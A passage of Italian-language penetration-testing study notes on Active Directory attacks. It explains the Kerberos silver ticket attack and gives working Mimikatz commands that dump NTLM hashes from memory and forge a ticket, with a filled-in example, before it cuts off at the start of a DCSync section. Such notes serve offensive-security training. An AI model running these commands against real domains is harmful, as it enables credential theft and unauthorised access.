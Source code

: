 Ad esempio, se l'attaccante riuscisse ad autenticarsi ad un server IIS che esegue nel contesto di un service account _iis_service_, l'applicazione determinerebbe i suoi permessi solo tramite il _group memberships_ presente sul service ticket.

Se l'attaccante avesse la password (o l'hash NTLM associato) del service account potrebbe creare un proprio ticket per accedere alla risorsa (_iis_service_) con tutti i permessi possibili.

Questo viene chiamato _silver ticket_ e se l'SPN fosse utilizzato su più server, questo permetterebbe di accedere ad ognuno di essi.

In generale, occorrono tre cose per creare un _silver ticket_:

- SPN password hash
- Domain SID
- Target SPN

Utilizzo di _Mimikatz_ per ottenere l'hash NTLM dell'utente collegato al servizio _iis_service_, mappato sul target SPN:

```bash
powershell -ep bypass
.\mimikatz.exe

privilege::debug
sekurlsa::logonpasswords
```

Domain SID:

```bash
whoami /user
```

Creazione del _silver ticket_:

```bash
kerberos::golden /$SID_NUMBER /domain:$DOMAIN_NAME /ptt /target:$COMPUTER_TARGET $/service:$SERVICE_NAME /rc4:$NTLM_HASH /user:$USER_NAME

Esempio:

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

Comando per mostrare la lista dei ticket Kerberos per confermare che il _silver ticket_ è stato creato e inviato alla sessione corrente:

```bash
klist
```

## 22.2.5. Domain Controller Synchronization

In ambienti grandi, i domini fanno affidamento su più di un domain controller per fornire ridondanza. Il _Directory Replication Service_ (DRS) Remote Protocol utilizza la _replication_ per sincronizzare questi domain controllers ridondanti. Un domain controller potrebbe richiedere un update per uno specifico oggetto utilizzando l'API _IDL_DRSGetNCChanges_.
